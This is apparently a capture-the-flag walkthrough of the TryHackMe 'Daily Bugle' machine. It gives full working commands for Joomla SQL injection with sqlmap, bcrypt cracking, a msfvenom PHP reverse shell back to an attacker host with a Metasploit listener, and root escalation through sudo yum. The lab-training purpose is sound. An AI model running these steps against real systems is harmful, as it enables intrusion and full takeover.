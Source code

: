 # Daily Bugle TryHackMe Walkthrough

**Author:** Adrian Korwel 

**Difficulty:** Hard  

**Objective:** Gain root access and retrieve the flags

---


## Overview

In this report, I document how I compromised the "Daily Bugle" machine on TryHackMe using only the information provided and publicly available resources. The goal was to gain user and root access, capturing both the user and root flags along the way.

---

## 1. Reconnaissance

I began with a basic Nmap scan to enumerate open ports and services:

```bash
nmap -sS -sV -O 10.10.171.13
```

**Results:**

* Port 22: SSH (OpenSSH 7.4, protocol 2.0)
* Port 80: HTTP (Apache 2.4.6, PHP/5.6.40)
* Port 3306: MySQL/MariaDB (unauthorized)
* Hostname: ip-10-10-162-223.eu-west-1.compute.internal
* MAC Address: 02:72:4F:1F:35:95 (Unknown)
* OS: Linux 3.10–3.13 (likely CentOS 7 based on Apache/PHP combo)

**Additional Enumeration:**

* Visiting the website at `http://10.10.171.13` revealed a Joomla-based CMS but no obvious login or author paths.
* Discovered `/administrator` endpoint manually and confirmed Joomla login interface.
* Inspected the HTTP headers and `robots.txt` which disallowed access to common Joomla directories.
* Detected Joomla! version 3.7.0 from page source and HTTP responses.

---

## 2. Web Enumeration

Visiting `http://10.10.171.13`, I saw a Joomla-based news site. I used gobuster to find additional directories:

```bash
gobuster dir -u http://10.10.171.13 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

**Findings:**

* /administrator
* /robots.txt
* Other Joomla-specific directories

Visiting `/administrator` revealed a Joomla admin login page. By checking `/administrator/manifests/files/joomla.xml`, I confirmed the Joomla version was **3.7.0**.

---

## 3. Joomla 3.7.0 SQL Injection

Researching the Joomla version led to the discovery of **CVE-2017-8917**, a SQLi vulnerability in the `com_fields` component.

I used sqlmap to exploit this:

```bash
sqlmap -u "http://10.10.171.13/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent -p list[fullordering] --dbs
```

From this, I identified the `joomla` database. I then enumerated tables:

```bash
sqlmap -u "<same_url>" -p list[fullordering] --dbms=MySQL -D joomla --tables
```

I found `#__users` and dumped its contents:

```bash
sqlmap -u "<same_url>" -p list[fullordering] --dbms=MySQL -D joomla -T #__users --dump
```

**Credentials obtained:**

* Username: jonah
* Password Hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

This is a bcrypt hash format, which requires a dictionary attack to crack.

---

## 4. Cracking the Hash

I used John the Ripper with the rockyou wordlist:

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Password recovered:** `spiderman123`

---

## 5. Joomla Admin Login and Remote Code Execution

Logged into the admin panel at `/administrator` using:

* Username: jonah
* Password: spiderman123

I edited the Protostar template to include a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php
```

Then set up a Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT 4444
run -j
```

Navigating to the shell file executed the payload, opening a Meterpreter session as the `apache` user.

---

## 6. Local Enumeration

I uploaded and ran `linpeas.sh`. It revealed the following:

* A user `jjameson`
* MySQL credentials in `/var/www/html/configuration.php`: `nv5uz9r3ZEDzVjNu`

---

## 7. Privilege Escalation to User `jjameson`

I attempted to switch user with the recovered password:

```bash
su jjameson
Password: nv5uz9r3ZEDzVjNu
```

It worked. As `jjameson`, I found the **user flag** in:

```bash
cat /home/jjameson/user.txt
```

---

## 8. Privilege Escalation to Root

Running `sudo -l` showed:

```bash
User jjameson may run the following commands on dailybugle:
  (ALL) NOPASSWD: /usr/bin/yum
```

From GTFOBins, I used the yum plugin exploit:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

This dropped me into a root shell. I confirmed with:

```bash
whoami
```

And retrieved the **root flag** from:

```bash
cat /root/root.txt
```

---

## Summary

* Initial access: SQLi in Joomla 3.7.0 → admin panel
* Remote code execution via template editing
* Local enumeration reveals user `jjameson` and credentials
* Lateral movement via `su`
* Privilege escalation via `sudo yum`

### Flags

* **User flag**: /home/jjameson/user.txt
* **Root flag**: /root/root.txt
